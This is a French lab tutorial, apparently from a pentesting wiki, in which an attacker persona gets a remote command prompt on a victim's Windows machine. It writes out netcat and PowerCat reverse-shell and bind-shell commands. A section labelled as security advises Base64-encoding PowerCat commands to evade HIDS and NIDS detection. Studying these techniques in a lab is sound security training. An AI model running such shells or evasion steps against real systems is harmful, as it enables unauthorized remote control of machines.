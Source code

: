 ![vmware_hnwipqbt91.png](/uploads/reconnaissance/vmware_hnwipqbt91.png){.align-center}

> **Remarque** : Le chargement du script et de son contenu n'est valable que pour l'instance en cours. Il faudra donc renouveler l'opération à chaque nouvelle instance. 
{.is-warning}

## REVERSE SHELL

**Monsieur Capuche** réalisera un serveur d'écoute auquel **Monsieur Bob** va se connecter en lui donnant accès à une invite de commande CMD. 

Création serveur d'écoute : `nc -nvlp [Port]`

![vmware_ojswpqmidv.png](/uploads/reconnaissance/vmware_ojswpqmidv.png){.align-center}

Bob peut maintenant s'y connecter : `powercat -c [@IP] -p [Port] -e [Executable]`

![vmware_vdgarfk2k1.png](/uploads/reconnaissance/vmware_vdgarfk2k1.png){.align-center}

**Monsieur Capuche** peut maintenant exécuter des commandes sur le poste de **Monsieur Bob**.

![vmware_20uzbjqvae.png](/uploads/reconnaissance/vmware_20uzbjqvae.png){.align-center}

## BIND SHELL

**Monsieur Bob** crée maintenant un serveur d'écoute avec une invite CMD en trigger :

`powercat -l -p [Port] -e [Executable]`

![vmware_zpxwnd43ug.png](/uploads/reconnaissance/vmware_zpxwnd43ug.png){.align-center}
**Monsieur Capuche** peut maintenant s'y connecter et avoir accès au poste de **Monsieur Bob** :

`nc -nv [@IP] [Port]`

![edcipjyufy.gif](/uploads/reconnaissance/edcipjyufy.gif){.align-center}

## SÉCURISATION

> **Attention** : Au-delà de l'autorisation d'exécution des scripts PowerShell pouvant être détectée par un HIDS (*Host-based Intrusion Detection System*), l'utilisation d'outils comme PowerShell ou PowerCat en clair restent détectables. Leurs signatures sont bien connues des NIDS (*Network Intrusion Detection System*).
{.is-danger}

> Il est donc recommendé d'encoder vos commandes avec PowerShell avant de les utiliser.
{.is-success}

**Monsieur Bob** va encoder en **Base64** une instruction de connexion avec un bind vers une invite de commande. L'instruction sera alors interprétée par **PowerShell** mais sera beaucoup plus difficile à détecter.

Encodage de la commande dans un fichier .ps1 :

`powercat -c [@IP] -p [Port] -e [Executable] -ge > [Nom_Fichier_Encodé].ps1`

